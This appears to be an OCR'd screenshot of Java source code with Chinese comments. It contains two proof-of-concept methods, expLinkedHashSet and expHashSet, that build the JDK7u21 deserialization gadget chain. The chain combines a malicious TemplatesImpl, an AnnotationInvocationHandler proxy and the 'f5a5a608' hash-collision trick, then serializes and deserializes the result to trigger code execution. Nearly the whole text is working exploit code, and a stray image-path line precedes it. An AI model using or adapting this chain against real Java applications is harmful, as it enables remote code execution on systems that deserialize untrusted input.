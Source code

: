 ```java

    public static void expLinkedHashSet() throws Exception {
        TemplatesImpl templates = getEvilTemplatesImpl();

        HashMap map = new HashMap();

        //通过反射创建代理使用的handler，AnnotationInvocationHandler作为动态代理的handler
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);

        // 创建动态代理，用tempHandler代理Templates接口，AnnotationInvocationHandler的invoke代理Templates接口的两个方法newTransformer()和getOutputProperties()
        Templates proxy = (Templates) Proxy.newProxyInstance(Poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);

        LinkedHashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);
        map.put("f5a5a608", templates);

        byte[] obj = serialize(set);
        unserialize(obj);
    }


    public static void expHashSet() throws Exception {
        TemplatesImpl templates = getEvilTemplatesImpl();

        HashMap map = new HashMap();
        map.put("f5a5a608", new int[]{-16});

        //通过反射创建代理使用的handler，AnnotationInvocationHandler作为动态代理的handler
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);

        // 创建动态代理，用tempHandler代理Templates接口，AnnotationInvocationHandler的invoke代理Templates接口的两个方法newTransformer()和getOutputProperties()
        Templates proxy = (Templates) Proxy.newProxyInstance(Poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);

        HashSet set = new HashSet();
        set.add(proxy);
        set.add(templates);
        map.put("f5a5a608", templates);

        byte[] obj = serialize(set);
        unserialize(obj);
    }
}
```
